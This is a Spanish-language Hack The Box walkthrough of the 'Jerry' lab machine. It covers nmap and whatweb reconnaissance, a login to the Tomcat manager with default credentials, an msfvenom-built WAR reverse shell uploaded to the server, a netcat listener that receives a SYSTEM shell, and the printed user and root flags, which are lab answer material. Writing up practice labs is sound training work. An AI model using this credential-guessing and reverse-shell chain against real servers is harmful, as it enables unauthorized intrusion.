 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Ésta máquina es bastante facililla. Vamos a explotar un Tomcat aprovechandonos de un upload de la página, aunque primero necesitaremos credenciales válidas. Asá que vamos a ello."
date: 2021-9-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-Jerry/Jerry_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
    - linux
    - tomcat
    - file upload
    - web loger
    - revershell
---
```


![](/assets/images/htb-writeup-Jerry/Jerry_logo.png)

# Reconocimiento

Primero vamos a comenzar realizando, como siempre, un reconocimiento de puertos por el protocolo **TCP** , y el output lo redirigiremos al archivo `allPorts`.

```bash

h3g0c1v@kali:~/htb/jerry$ nmap --min-rate 5000 -p- --open -vvv -n -Pn -oG allPorts 10.10.10.95

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:43 CEST
Initiating SYN Stealth Scan at 20:43
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:44, 26.36s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 20:43:54 CEST for 26s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

Vemos que solo tiene un puerto abierto, que es el puerto 8080.

Pues vamos a detectar la versión y servicio que corren para ese puerto.

```bash

nmap -sC -sV -p8080 10.10.10.95
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:49 CEST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Muy bien, nos reporta un poco más de informacion. Aun asi, veamos que nos dice el **whatweb** .

```bash

h3g0c1v@kali:~/htb/jerry$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]

```
# Consiguiendo Acceso a la Máquina

Bien, veamos que contiene ese servidor Tomcat.

![](/assets/images/htb-writeup-Jerry/Tomcat_page.png)

Y nos aparece lo siguiente. Puedo probar a ver si tiene un **panel login** la pagina web. La ruta en la que normalmente está almacenado el panel login en Tomcat es `/manager/html`, asi que vamos a probar.

![](/assets/images/htb-writeup-Jerry/tomcat_page.png)

Vamos a probar con las credenciales típicas de **admin** , **admin**. ¡Y vemos las credenciales! ¡Por que sí! Que raro es esto, pero la hemos encontrado.

![](/assets/images/htb-writeup-Jerry/credentials.png)

Bueno pues nos **logeamos** con las credenciales y vemos lo siguiente.

![](/assets/images/htb-writeup-Jerry/dentro_tomcat.png)

Por abajo veo que hay un **upload** de archivos `.war` por lo que voy a intentar meter una revershell, para intentar ganar acceso al sistema.

Y para ello utilizaremos **msfvenom** , e utilizar la reveshell hecha en **java** llamada `java/jsp_shell_reverse_tcp`.

```bash

h3g0c1v@kali:~/htb/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > revershell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

```

Ahora metemos el archivo `.war` en la pagina web, para que se nos cree otro módulo.

![](/assets/images/htb-writeup-Jerry/revershell.png)

Y una vez metido el archivo en la máquina, nos ponemos en escucha por el puerto **443** , para ver si es vulnerable.

```bash

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>


```
# Visualizando las Flags

¡Y si! Es vulnerable. Hemos ganado acceso al sistema, incluso lo hemos hecho como `nt authority\system`.

```bash

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

En este punto ya hemos comprometido la máquina y podemos ver las flags de **user.txt** y **root.txt** .

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
